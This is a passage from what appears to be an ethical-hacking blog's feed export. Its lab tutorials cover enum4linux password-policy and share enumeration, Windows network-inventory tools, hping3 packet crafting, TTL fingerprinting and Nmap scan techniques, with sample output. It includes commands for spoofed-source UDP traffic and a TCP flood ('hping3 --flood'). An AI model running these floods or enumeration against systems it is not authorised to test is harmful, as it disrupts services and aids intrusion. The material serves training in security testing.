</code></pre>


<h2 class="wp-block-heading" id="get-password-policy-info">Get Password Policy info<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/3-Enumeration/3-Enum4linux-Win-and-Samba-Enumeration.html#get-password-policy-info"></a></h2>


<p>This options enumerates the target system and displays its entire password policy information as show below:</p>


<p><code>enum4linux -u CEH -p Pa55w.rd -P 10.0.2.23</code></p>


<p>-P: Get password policy information</p>


<pre class="wp-block-code"><code> ================================================= 
|    Password Policy Information for 10.0.2.23    |
 ================================================= 

&#91;+] Attaching to 10.0.2.23 using shmurdance:Pa55w.rd
&#91;+] Trying protocol 445/SMB...
&#91;+] Found domain(s):

        &#91;+] LAB
        &#91;+] Builtin

&#91;+] Password Info for Domain: LAB

        &#91;+] Minimum password length: 7
        &#91;+] Password history length: 24
        &#91;+] Maximum password age: 41 days 23 hours 53 minutes 
        &#91;+] Password Complexity Flags: 000001

                &#91;+] Domain Refuse Password Change: 0
                &#91;+] Domain Password Store Cleartext: 0
                &#91;+] Domain Password Lockout Admins: 0
                &#91;+] Domain Password No Clear Change: 0
                &#91;+] Domain Password No Anon Change: 0
                &#91;+] Domain Password Complex: 1

        &#91;+] Minimum password age: 1 day 4 minutes 
        &#91;+] Reset Account Lockout Counter: 30 minutes 
        &#91;+] Locked Account Duration: 30 minutes 
        &#91;+] Account Lockout Threshold: None
        &#91;+] Forced Log off Time: Not Set

&#91;+] Retieved partial password policy with rpcclient:

Password Complexity: Enabled
Minimum Password Length: 7
</code></pre>


<h2 class="wp-block-heading" id="get-group-info">Get Group Info<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/3-Enumeration/3-Enum4linux-Win-and-Samba-Enumeration.html#get-group-info"></a></h2>


<p>This options enumerates the target system and displays the group policy information, showing domain groups, memberships, local groups and so on.</p>


<p><code>enum4linux -u CEH -p Pa55w.rd -G 10.0.2.23</code></p>


<h2 class="wp-block-heading" id="get-share-info">Get Share info<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/3-Enumeration/3-Enum4linux-Win-and-Samba-Enumeration.html#get-share-info"></a></h2>


<p>This option enumerate the share policy information of the target machine</p>


<p><code>enum4linux -u CEH -p Pa55w.rd -S 10.0.2.23</code></p>


<p>-S: Get sharelist</p>


<h1 class="wp-block-heading" id="gui-tools-for-enumeration-in-windows">GUI Tools for Enumeration in Windows</h1>


<h2 class="wp-block-heading" id="global-network-inventory">Global Network Inventory<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/3-Enumeration/4-Windows-EnumerationTools.html#global-network-inventory"></a></h2>


<p>Global Network Inventory is used as an audit scanner in zero deployment and agent-free environments. It scans computers by IP range, by domain, and single or multiple computers, as defined by the Global Network Inventory host file. You can enumerate NetBIOS, Users Groups, Users, Software running, BIOS and so on.<br>[Trial/Paid]<br>http://www.magnetosoft.com/product/global_network_inventory/download</p>


<h2 class="wp-block-heading" id="advanced-ip-scanner">Advanced IP Scanner<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/3-Enumeration/4-Windows-EnumerationTools.html#advanced-ip-scanner"></a></h2>


<p>Free network scanner to analyse LAN. The program shows all network devices, gives you access to shared folders, provides remote control of computers (via RDP and Radmin), and can even remotely switch computers off. It is easy to use and runs as a portable edition. It should be the first choice for every network admin.<br>[Free]<br>https://www.advanced-ip-scanner.com/</p>


<h2 class="wp-block-heading" id="hyena">Hyena<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/3-Enumeration/4-Windows-EnumerationTools.html#hyena"></a></h2>


<p>Hyena provides extensive Active Directory (AD) reporting, with built-in tools for customizable queries, filtering, management of object properties, advanced attribute management, and many other AD administration features.<br>[Trial/Paid]<br>https://systemtools.com/</p>


<h2 class="wp-block-heading" id="superscan">SuperScan<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/3-Enumeration/4-Windows-EnumerationTools.html#superscan"></a></h2>


<p>Free Port scanner for Windows. You can use the program to scan IPs, HTTPS, FTP, and more.<br>[Free]<br>https://superscan.en.softonic.com/</p>


<h2 class="wp-block-heading" id="softperfect-networkscanner">SoftPerfect NetworkScanner<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/3-Enumeration/4-Windows-EnumerationTools.html#softperfect-networkscanner"></a></h2>


<p>Network scanner can ping computers, scan ports, discover shared folders and so on.<br>[Trial/Paid] https://www.softperfect.com/products/networkscanner/</p>


<h2 class="wp-block-heading" id="adexplorer">ADExplorer<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/3-Enumeration/4-Windows-EnumerationTools.html#adexplorer"></a></h2>


<p>Active Directory Explorer (AD Explorer) is an advanced Active Directory (AD) viewer and editor. You can use AD Explorer to easily navigate an AD database, define favorite locations, view object properties and attributes without having to open dialog boxes, edit permissions, view an object’s schema, and execute sophisticated searches that you can save and re-execute.</p>


<figure class="wp-block-embed"><div class="wp-block-embed__wrapper">
https://docs.microsoft.com/en-us/sysinternals/downloads/adexplorer
</div></figure>
]]></content:encoded>
					
		
		
			</item>
		<item>
		<title>Scanning a Target Network</title>
		<link>../../../2024/11/18/scanning-a-target-network/index.html</link>
		
		<dc:creator><![CDATA[]]></dc:creator>
		<pubDate>Mon, 18 Nov 2024 10:12:59 +0000</pubDate>
				<category><![CDATA[Ethical Hacking With Kali Linux]]></category>
		<category><![CDATA[Ethical Hacking, Botnets, MAC Flooding, ARP Attacks, DDos, Sniffing & Penetration Testing.]]></category>
		<guid isPermaLink="false">../../../index.html?p=8854</guid>

					<description><![CDATA[Network Scanning refers to a set of procedures performed to identify hosts, ports, and services running in a network. The purpose of network scanning is as follows: UDP and TCP....]]></description>
										<content:encoded><![CDATA[
<p>Network Scanning refers to a set of procedures performed to identify hosts, ports, and services running in a network.</p>


<p>The purpose of network scanning is as follows:</p>


<ul class="wp-block-list">
<li>Recognize available UDP and TCP network services running on the targeted hosts.</li>


<li>Recognize filtering systems between the user and the targeted hosts.</li>


<li>Determine the operating systems (OSs) in use by assessing IP responses.</li>


<li>Evaluate the target host’s TCP sequence number predictability to determine sequence prediction attack and TCP spoofing.</li>
</ul>


<h1 class="wp-block-heading" id="udp-and-tcp-packet-crafting-techniques-using-hping3">UDP and TCP Packet Crafting Techniques using&nbsp;<code>hping3</code></h1>


<p>Hping3 is a scriptable program that uses the&nbsp;<a href="https://www.tcl.tk/about/language.html">Tcl language</a>, whereby packets can be received and sent via a binary or string representation describing the packets.</p>


<p>During network scanning, your first task will be to scan the target network to determine all possible open ports, live hosts, and running services. Knowledge of packet-crafting techniques may help you to scan the network beyond the firewall or IDS.</p>


<h3 class="wp-block-heading" id="objectives">Objectives:<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/1-hping3.html#objectives"></a></h3>


<ul class="wp-block-list">
<li>How to perform network scanning and packet crafting using hping3 commands.</li>
</ul>


<h3 class="wp-block-heading" id="requirements">Requirements:<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/1-hping3.html#requirements"></a></h3>


<ul class="wp-block-list">
<li>Kali Linux (Attacker machine)</li>


<li>Windows 10 (Target machine)</li>
</ul>


<h2 class="wp-block-heading" id="overview-of-packet-crafting">Overview of Packet Crafting<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/1-hping3.html#overview-of-packet-crafting"></a></h2>


<p>Packet crafting is a technique that allows you to find vulnerabilities or entry points into a target network. This can ben performed by creating custom network packets to test network devices and behavior. ***</p>


<p><strong>Note:</strong>&nbsp;Before beginning this lab, install the Wireshark in Windows 10 machine.</p>


<h2 class="wp-block-heading" id="hping3-basics">hping3 basics<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/1-hping3.html#hping3-basics"></a></h2>


<p>Login to Kali Linux and launch the Terminal.<br>Use&nbsp;<code>hping3 -h</code>&nbsp;to show all the commands. We will foccus on a couple of them so don’t worry.</p>


<p>Let’s start!</p>


<p><code>hping3 -c 3 &lt;Target IP address&gt;</code></p>


<pre class="wp-block-code"><code>...
3 packets transmitted, 3 packets received, 0% packet loss
...
</code></pre>


<p>Note on the bottom of the output, the 3 packets were sent and received. You should get this response.</p>


<p><code>-c</code>&nbsp;stands for packet count. Means that we only want to send three packets to the target machine.</p>


<p>Next we will send a SYN flag scan with a port range.</p>


<p><code>hping3 --scan 1-3000 -S &lt;Target IP address&gt;</code></p>


<pre class="wp-block-code"><code>Scanning 10.0.2.15 (10.0.2.15), port 1-3000
3000 ports to scan, use -V to see all the replies
+----+-----------+---------+---+-----+-----+-----+
|port| serv name |  flags  |ttl| id  | win | len |
+----+-----------+---------+---+-----+-----+-----+
  135 epmap      : .S..A... 128 62018 65392    46
  139 netbios-ssn: .S..A... 128 63042  8192    46
  445 microsoft-d: .S..A... 128 52291 65392    46
All replies received. Done.
Not responding ports: 
</code></pre>


<p><code>--scan</code>&nbsp;parameter defines the port range to scan.<br><code>-S</code>&nbsp;represents&nbsp;<strong>SYN flag</strong>.</p>


<p>The output shows the open ports in the target machine, i.e. Windows 10.</p>


<h2 class="wp-block-heading" id="udp-packet-crafting">UDP packet crafting<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/1-hping3.html#udp-packet-crafting"></a></h2>


<p>To perform a UDP packet crafting in the target machine, type:</p>


<p><code>hping3 &lt;Target IP address&gt; --udp --rand-source --data 500</code></p>


<p>Next go to Windows 10 machine and fire up the Wireshark to start capturing packets.</p>


<p>Observe the UDP and ICMP packets. Click the&nbsp;<strong>UDP</strong>&nbsp;packet and look inside, the&nbsp;<strong>Data (500 bytes)</strong>.</p>


<p><code>--udp</code>&nbsp;UDP mode.<br><code>--rand-source</code>&nbsp;This option enables the random source mode. hping will send packets with random source address.<br><code>--data</code>&nbsp;data size in bytes.</p>


<h2 class="wp-block-heading" id="send-tcp-syn-request">Send TCP SYN Request<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/1-hping3.html#send-tcp-syn-request"></a></h2>


<p>Launch the Wireshark on Windows machine again and leave it running.</p>


<p>To send a TCP SYN request to the target machine, type:</p>


<p><code>hping3 -S &lt;Target IP address&gt; -p 80 -c 5</code></p>


<p><strong>This will transmit 5 packets request to victim machine through port 80.</strong></p>


<p><code>-S</code>&nbsp;will perform TCP SYN request on the target,&nbsp;<code>p</code>&nbsp;will pass the traffic through which port is assigned, and&nbsp;<code>-c</code>&nbsp;is the count of the packets sent to the target machine.</p>


<p>Switch to the target machine (Windows), and observe the TCP packets caputerd in Wireshark.</p>


<p>Next, stop the packet capture, and start a new capture again. Leave the Wireshark running.</p>


<h2 class="wp-block-heading" id="perform-tcp-flooding">Perform TCP Flooding<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/1-hping3.html#perform-tcp-flooding"></a></h2>


<p><code>hping3 &lt;Target IP address&gt; --flood</code></p>


<p>The&nbsp;<code>--flood</code>&nbsp;send packets as fast as possible, without taking care to show incoming replies.</p>


<p>After a couple seconds stop the packet capture in Wireshark on Windows. You will notice the TCP flooding from the attacker machine.</p>


<p>Note: If you want to inspect the TCP packet stream and do some reverse engineering make sure to understand more than the infamous “Three-Way Handshake”. *** Some interesting links:</p>


<h1 class="wp-block-heading" id="identify-target-systems-os-with-ttl-time-to-live-and-tcp-windows-sizes-using-wireshark">Identify Target System’s OS with TTL (Time-to-Live) and TCP Windows Sizes using Wireshark</h1>


<p>Identifying the OS used on the target host allows an attacker to figure out the vulnerabilities the system have and the exploits that might work on a system to further perform additional attacks.</p>


<p>Capture the response generated from the target machine using packet-sniffing tools such as Wireshark and watch the TTL and TCP window size.</p>


<h3 class="wp-block-heading" id="objectives">Objectives:<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/2-TTL.html#objectives"></a></h3>


<ul class="wp-block-list">
<li>Identify OS’s by TTL and TCP window size using Wireshark.</li>
</ul>


<h3 class="wp-block-heading" id="requirements">Requirements:<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/2-TTL.html#requirements"></a></h3>


<ul class="wp-block-list">
<li>Linux Ubuntu machine.</li>


<li>Windows 7 machine.</li>


<li>Windows 10 machine (Target running Wireshark).</li>
</ul>


<h2 class="wp-block-heading" id="overview-of-banner-grabbing">Overview of Banner Grabbing:<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/2-TTL.html#overview-of-banner-grabbing"></a></h2>


<p><strong>There are two types of banner grabbing techniques: active and passive.</strong></p>


<p>Banner grabbing or OS fingerprinting is the method to determine the OS running on a remote target system.</p>


<figure class="wp-block-table"><table class="has-fixed-layout"><thead><tr><th>Operating System</th><th>Time-to-Live(TTL)</th><th>TCP Window Size</th></tr></thead><tbody><tr><td>Linux(Kernel 2.4 and 2.6)</td><td>64</td><td>5840</td></tr><tr><td>FreeBSD</td><td>64</td><td>65535</td></tr><tr><td>OpenBSD</td><td>64</td><td>65535</td></tr><tr><td>Google customized Linux</td><td>64</td><td>5720</td></tr><tr><td>Windows XP</td><td>128</td><td>65535</td></tr><tr><td>Windows 7, Vista and Server 2008</td><td>128</td><td>8192</td></tr><tr><td>Cisco Router IOS 12.4</td><td>255</td><td>4128</td></tr></tbody></table></figure>


<h2 class="wp-block-heading" id="using-wireshark-to-detect-ttl">Using Wireshark to Detect TTL<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/2-TTL.html#using-wireshark-to-detect-ttl"></a></h2>


<ol class="wp-block-list">
<li>Open Wireshark on your Windows 10 machine, select the correct interface and start capturing. (The interface may differ from your lab environment).</li>
</ol>


<figure class="wp-block-image"></figure>


<ol class="wp-block-list">
<li>Go to the Ubuntu machine and start pinging the Windows 10 machine.</li>
</ol>


<p><code>ping -c 10 &lt;Target IP Address[Windows 10]&gt;</code></p>


<figure class="wp-block-image"></figure>


<ol class="wp-block-list">
<li>Go back to the Wireshark and inspect the ICMP protocol by selecting the packet frame captured; Expand the Internet Protocol Version node in the packet details, you will see the TTL.</li>
</ol>


<p>TTL value recorded as&nbsp;<code>64</code>&nbsp;means that the ICMP request came from a Linux-based machine.</p>


<figure class="wp-block-image"></figure>


<ol class="wp-block-list">
<li>Refresh the Wireshark by starting another capture and go to your Windows 7.</li>
</ol>


<p>You will repeat the same process, but with the Windows 7 machine. Open the Prompt or Powershell and ping the Windows 10 machine running Wireshark.</p>


<p><code>ping &lt;Target IP Address&gt;</code></p>


<ol class="wp-block-list">
<li>Go back to the Wireshark on Windows 10 machine and inspect again the same TTL information.</li>
</ol>


<p>TTL value recorded as&nbsp;<code>128</code>&nbsp;means that the ICMP request came from a Windows-based machine.</p>


<figure class="wp-block-image"></figure>


<h1 class="wp-block-heading" id="basic-network-troubleshooting-using-megaping-windows">Basic Network Troubleshooting using MegaPing (Windows)</h1>


<p>MegaPing is an ultimate toolkit that provides complete essential utilities for IT administrators and solution providers.</p>


<p>Official site: http://www.magnetosoft.com/product/megaping/download</p>


<p>With MegaPing utility, you can detect live hosts, open ports of the system in the network. You can also perform various network troubleshooting activities with the help of network utilities integrated into it, such as DNS lookup name, DNS list hosts, Finger, host monitor, IP scanner, NetBios scanner, network time synchronizer, ping, port scanner, share scanner, traceroute, and whois.</p>


<h3 class="wp-block-heading" id="objectives">Objectives:<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/3-MegaPing.html#objectives"></a></h3>


<ul class="wp-block-list">
<li>Detect live hosts and open ports of systems in the network.</li>
</ul>


<h3 class="wp-block-heading" id="requirements">Requirements:<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/3-MegaPing.html#requirements"></a></h3>


<ul class="wp-block-list">
<li>Windows 7, 8 or 10.</li>


<li>Windows Server 2012/2016 (target).</li>
</ul>


<hr class="wp-block-separator has-alpha-channel-opacity"/>


<p>After the installation, launch the application on your Windows 10 machine.</p>


<h2 class="wp-block-heading" id="scanning-for-active-hosts">Scanning for Active Hosts<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/3-MegaPing.html#scanning-for-active-hosts"></a></h2>


<p>This software is very simple to use. To start a scan click on&nbsp;<strong>IP Scanner</strong>&nbsp;on the left panel.</p>


<figure class="wp-block-image"></figure>


<ul class="wp-block-list">
<li>Specify the <strong>IP Range</strong> of your network lab, then click start.</li>


<li>Note the check box on the right side, you can view the <strong>MAC addresses</strong> from the hosts you harvested.</li>
</ul>


<p>MegaPing list down all the IP addresses under the specified target range with their&nbsp;<strong>TTL</strong>,&nbsp;<strong>Status</strong>(dead or alive), and their statistics.</p>


<h2 class="wp-block-heading" id="perform-traceroute-on-a-target">Perform Traceroute on a Target<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/3-MegaPing.html#perform-traceroute-on-a-target"></a></h2>


<ul class="wp-block-list">
<li>Right-click an IP address, and click <strong>Traceroute</strong>.</li>
</ul>


<p>This action will perform a Traceroute, displaying the number of hops taken by the host machine to reach the target.</p>


<h2 class="wp-block-heading" id="perform-port-scanning-on-the-target-host">Perform Port Scanning on the Target Host<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/3-MegaPing.html#perform-port-scanning-on-the-target-host"></a></h2>


<ul class="wp-block-list">
<li>Next select the <strong>Port Scanner</strong> on the left pane.</li>


<li>Enter the IP address of the target machine under <strong>Destination Address List</strong> section, and click <strong>Add</strong>.</li>
</ul>


<p>This action will list all the ports associated with the target, along with the&nbsp;<strong>port type, keyword, risk, and description</strong>, as shown in the following screenshot:</p>


<figure class="wp-block-image"></figure>


<p>Note: You also can generate a report in HTML file on every scan.</p>


<p><strong>Conclusion</strong>: MegaPing security scanner checks your network for potential vulnerabilities that could be used for a bad actor.</p>


<h1 class="wp-block-heading" id="understanding-the-basics-of-network-scanning-using-nmap">Understanding the Basics of Network Scanning using Nmap</h1>


<p>&nbsp;Nmap (Zenmap is the official Nmap GUI) is a free, open-source(license) utility for network exploration and security auditing.</p>


<p>Nmap is the most popular network-scanning utility, that most of security professionals use during security assessments. It supports various types of network-scanning techniques. During security assessment, you will be asked to perform network scanning using Nmap. Therefore, as a professional ethical hacker or a penetration tester, you will need to be confortable with Nmap to perform a network scan.</p>


<h3 class="wp-block-heading" id="objectives">Objectives:<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/4-Nmap.html#objectives"></a></h3>


<ul class="wp-block-list">
<li>Scan a whole Subnet.</li>


<li>Trace all the sent and received packets.</li>


<li>Perform a slow comprehensive scan.</li>


<li>Create a new profile to perform a Null Scan.</li>


<li>Scan TCP and UDP ports.</li>


<li>Analyze hosts details and their topology.</li>


<li>Scanning Techniques:
<ul class="wp-block-list">
<li>TCP Connect Scan</li>


<li>Xmas Scan</li>


<li>ACK Flag Scan</li>


<li>UDP Scan</li>


<li>IDLE Scan</li>
</ul>
</li>


<li>Avoiding Scanning Detection</li>
</ul>


<h3 class="wp-block-heading" id="requirements">Requirements:<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/4-Nmap.html#requirements"></a></h3>


<ul class="wp-block-list">
<li>Windows server 2012 machine.</li>


<li>Windows 10 machine.</li>


<li>Ubuntu <a href="https://information.rapid7.com/download-metasploitable-2017.html">Metasploitable</a> machine.</li>


<li>Kali Linux machine.</li>


<li>Make sure to <a href="https://www.techrepublic.com/article/how-to-create-multiple-nat-networks-in-virtualbox/">configure</a> properly the network topology on your virtual environment.</li>
</ul>


<p><strong>Note</strong>&nbsp;#0: Since this lab is exclusive on scanning networks, you don’t need to download these specifics machines. Since you have any virtual machine to scan (besides the Kali), you good to go.</p>


<p><strong>Note</strong>&nbsp;#1: You can use whatever Nmap version you prefer. Personally I prefer the CLI version instead of the GUI, is more adaptable to workflow and have a more solid learning curve.</p>


<h2 class="wp-block-heading" id="scan-a-whole-subnet">Scan a whole Subnet<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/4-Nmap.html#scan-a-whole-subnet"></a></h2>


<p>Open the Terminal window and type&nbsp;<code>nmap -h</code>&nbsp;to list all the commands available. Since Nmap have so many options, you can use this&nbsp;<a href="https://nmapcookbook.blogspot.com/2010/02/nmap-cheat-sheet.html">cheat sheet</a>,&nbsp;<a href="https://www.stationx.net/nmap-cheat-sheet/">[2]</a>&nbsp;to view some examples.</p>


<p><code>nmap -O &lt;IP Range&gt;</code></p>


<p>The option&nbsp;<code>-O</code>&nbsp;is related to Operating System Detection.</p>


<p>To specify the IP range you can use two methods:</p>


<p><strong>Wildcard</strong>:&nbsp;<code>nmap -O 10.0.2.*</code></p>


<p><strong>Subnet notation:</strong>&nbsp;<code>nmap -O 10.0.2.1/24</code></p>


<p>Both do the same, with little differentiations, like the subnet notation is a little bit more faster than wildcard.</p>


<p><strong>Run this scan and check out the results.</strong></p>


<p>The Nmap scans the entire network and displays information for all the hosts, along with open ports, device type, details of OS, and so on.</p>


<h2 class="wp-block-heading" id="trace-all-the-sent-and-received-packets">Trace all the Sent and Received Packets<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/4-Nmap.html#trace-all-the-sent-and-received-packets"></a></h2>


<p><strong>Select</strong>&nbsp;one host that you scanned</p>


<p><code>nmap --packet-trace 10.0.2.23</code></p>


<p>By issuing the&nbsp;<code>--packet-trace</code>&nbsp;command, Nmap sends some packets to the intended machine and receives packets in response to the sent packets. It prints a summary of every packet it sends and receives.</p>


<p>The output below show the packets&nbsp;<strong>sent from host to target</strong>&nbsp;and packets&nbsp;<strong>received from target to host</strong>.</p>


<pre class="wp-block-code"><code>...
SENT (4.1431s) TCP 10.0.2.15:35962 &gt; 10.0.2.23:3005 S ttl=43 id=22968 iplen=44  seq=1965204224 win=1024 &lt;mss 1460&gt;
SENT (4.1433s) TCP 10.0.2.15:35962 &gt; 10.0.2.23:4000 S ttl=39 id=51710 iplen=44  seq=1965204224 win=1024 &lt;mss 1460&gt;
SENT (4.1434s) TCP 10.0.2.15:35962 &gt; 10.0.2.23:1503 S ttl=53 id=146 iplen=44  seq=1965204224 win=1024 &lt;mss 1460&gt;
SENT (4.1435s) TCP 10.0.2.15:35962 &gt; 10.0.2.23:1761 S ttl=56 id=27951 iplen=44  seq=1965204224 win=1024 &lt;mss 1460&gt;
...
</code></pre>


<p>Note in the bottom of the output also is shown the open TCP ports:</p>


<pre class="wp-block-code"><code>PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
443/tcp   open  https
445/tcp   open  microsoft-ds
...
</code></pre>


<h2 class="wp-block-heading" id="identifying-services-with-tcp-null-scan">Identifying Services with TCP Null Scan<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/4-Nmap.html#identifying-services-with-tcp-null-scan"></a></h2>


<p><code>nmap -sN -T4 -A &lt;Target IP address&gt;</code></p>


<p><code>-sN</code>: TCP Null Scan.<br><code>-T4</code>: Timing: (4)Aggressive mode speeds scans up by making the assumption that you are on a reasonably fast and reliable network.<br><code>-A</code>: Enables OS detection, version detection, script scanning, and traceroute</p>


<p>By issuing this command, Nmap sends TCP packets with none of the TCP flags set in the packet. If the scans returns an RST packet, it means the port is closed; If nothing is returned, the port is either filtered or open.</p>


<pre class="wp-block-code"><code>...
53/tcp   open  domain      ISC BIND 9.4.2
| dns-nsid: 
|_  bind.version: 9.4.2
80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
|_http-server-header: Apache/2.2.8 (Ubuntu) DAV/2
|_http-title: Metasploitable2 - Linux
111/tcp  open  rpcbind     2 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
512/tcp  open  exec        netkit-rsh rexecd
513/tcp  open  login       OpenBSD or Solaris rlogind
514/tcp  open  tcpwrapped
1099/tcp open  java-rmi    GNU Classpath grmiregistry
1524/tcp open  bindshell   Metasploitable root shell
2049/tcp open  nfs         2-4 (RPC #100003)
2121/tcp open  ftp         ProFTPD 1.3.1
...
</code></pre>


<p>As shown above, we can se the piece of the output of the scan, performed on the Metasploitable Linux. Later we can check the versions and type of services running on the open ports. This type of information is very valuable because we can search for vulnerabilities, flaws and so on.</p>


<h1 class="wp-block-heading" id="scanning-techniques">Scanning Techniques</h1>


<p>Nmap comes with various inbuilt scripts that can be employed during a scan process in an attempt to find the open ports and services running on the ports.</p>


<p>Summary of scans that will be performed:</p>


<ol class="wp-block-list">
<li><strong>TCP Connect Scan</strong> uses a normal TCP connection to determine if a port is available.</li>


<li><strong>Xmas Scan</strong> involves sending TCP segments with the all flags sent in the packet header, generating packets that are illegal according to RFC 793.</li>


<li><strong>ACK Flag Scan</strong> involves sending ACK probe packet with random sequence number.</li>


<li><strong>UDP Scan</strong> involves sending a generic UDP packet to the target.</li>


<li><strong>IDLE Scan</strong> involves sending spoofed packets to a target.</li>
</ol>


<h2 class="wp-block-heading" id="1-tcp-connect-scan">1. TCP Connect Scan<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/4-Nmap.html#1-tcp-connect-scan"></a></h2>


<p>This is scan is the most basic of TCP scanning. The connect() system call provided by your OS is used to open a connection to every interesting port on the machine. If the port is listening, connect() will succed, otherwise the port is not reachable. One strong advantage to this technique is that you don’t need any special privileges.</p>


<p>Perform a TCP scan with a normal timing (<code>-T3</code>):</p>


<p><code>nmap -sT -T3 -A &lt;Target IP address&gt;</code></p>


<p><code>-sT</code>: TCP connect port scan (Default without root privilege).</p>


<p>The scan result includes all the open ports, OS Fingerprint result, nbstat result, smb-os-discovery results, smb version, and so on.</p>


<h2 class="wp-block-heading" id="2-xmas-scan">2. Xmas Scan<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/4-Nmap.html#2-xmas-scan"></a></h2>


<p>Xmas Scan sends a TCP frame to a remote device with PSH, URG, and FIN flags set. FIN scans only with OS TCP/IP developed according to RFC 793. The current version of MS Windows is not supported.</p>


<p><strong>Note: The next scan will be on a Firewall-enabled machine (i.e., Windows Server 2012).</strong></p>


<p><code>nmap -sX -T4 &lt;Target IP address&gt;</code></p>


<p><code>-sX</code>: Sets the FIN, PSH, and URG flags, lighting the packet up like a Christmas tree</p>


<pre class="wp-block-code"><code>Nmap scan report for 10.0.2.23
Host is up (0.00040s latency).
All 1000 scanned ports on 10.0.2.23 are open|filtered
MAC Address: 11:22:33:44:55:66 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 21.64 seconds
</code></pre>


<p>Nmap returns a result stating that the all ports are&nbsp;<strong>opened/filtered, which means a firewall has been configured on the target machine.</strong></p>


<p><strong>Next, turn off the Firewall on the target machine.</strong></p>


<h2 class="wp-block-heading" id="3-ack-flag-scan">3. ACK Flag Scan<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/4-Nmap.html#3-ack-flag-scan"></a></h2>


<p>The ACK scan never locates an open port. It only provides a “filtered” or “unfiltered” disposition, because it never connects to an application to confirm an “open” state.</p>


<p>This scan initiates ACK scan and displays the port disposition, as show below:</p>


<p><code>nmap -sA -v -T4 &lt;Target IP address&gt;</code></p>


<pre class="wp-block-code"><code>Initiating ARP Ping Scan at 13:18
Scanning 10.0.2.23 &#91;1 port]
Completed ARP Ping Scan at 13:18, 0.04s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 13:18
Completed Parallel DNS resolution of 1 host. at 13:18, 0.05s elapsed
Initiating ACK Scan at 13:18
Scanning 10.0.2.23 &#91;1000 ports]
Completed ACK Scan at 13:18, 1.26s elapsed (1000 total ports)
Nmap scan report for 10.0.2.23
Host is up (0.00029s latency).
All 1000 scanned ports on 10.0.2.23 are unfiltered
MAC Address: 11:22:33:44:55:66 (Oracle VirtualBox virtual NIC)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1.51 seconds
           Raw packets sent: 1060 (42.388KB) | Rcvd: 1001 (40.028KB)
</code></pre>


<p>Attackers send an ACK probe packet with a random sequence number.</p>


<ul class="wp-block-list">
<li>No response means the port is filtered.</li>


<li>Unfiltered response means the port is closed.</li>
</ul>


<h2 class="wp-block-heading" id="4-udp-scan">4. UDP Scan<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/4-Nmap.html#4-udp-scan"></a></h2>


<p>UDP scanning is performed to find any UDP ports on the target machine. If have any to determine their state (Open/Closed).</p>


<p><code>nmap -sU -T5 &lt;Target IP address&gt;</code></p>


<pre class="wp-block-code"><code>...
Not shown: 986 open|filtered ports
PORT      STATE  SERVICE
123/udp   open   ntp
137/udp   open   netbios-ns
389/udp   open   ldap
445/udp   closed microsoft-ds
688/udp   closed realm-rusd
1001/udp  closed unknown
1901/udp  closed fjicl-tep-a
8001/udp  closed vcom-tunnel
16674/udp closed unknown
18818/udp closed unknown
28973/udp closed unknown
30656/udp closed unknown
31109/udp closed unknown
57172/udp open   unknown
...
</code></pre>


